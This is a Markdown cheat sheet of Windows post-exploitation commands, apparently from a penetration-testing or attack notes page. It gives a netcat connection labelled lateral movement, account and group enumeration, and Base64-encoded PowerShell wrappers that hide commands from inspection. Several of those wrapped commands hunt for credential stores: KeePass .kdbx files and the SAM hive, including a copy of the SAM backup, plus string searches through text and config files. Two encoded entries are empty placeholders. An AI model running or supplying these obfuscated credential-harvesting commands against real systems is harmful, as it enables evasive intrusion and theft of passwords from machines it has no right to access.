 ## Lateral Movement:

- `nc 192.168.50.220 4444`

## Local Account Enumeration:

- `whoami`
- `whoami /groups`
- `Get-LocalUser`
- `Get-LocalUser -Name "username" | Select-Object \*`
- `Get-LocalGroup`
- `Get-LocalGroupMember Administrators`

## Get Installed Applications:

### 32 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

### 64 Bit:

- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

## Local System Enumeration

- `$command = "Get-Process"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'YourSearchString'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination 'C:\Path\To\NewLocation\SAM'"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "systeminfo"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "ipconfig /all"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "route print"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = "netstat -ano"; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

- `$command = ""; $bytes = [System.Text.Encoding]::Unicode.GetBytes($command); $encodedCommand = [Convert]::ToBase64String($bytes); powershell.exe -EncodedCommand $encodedCommand`

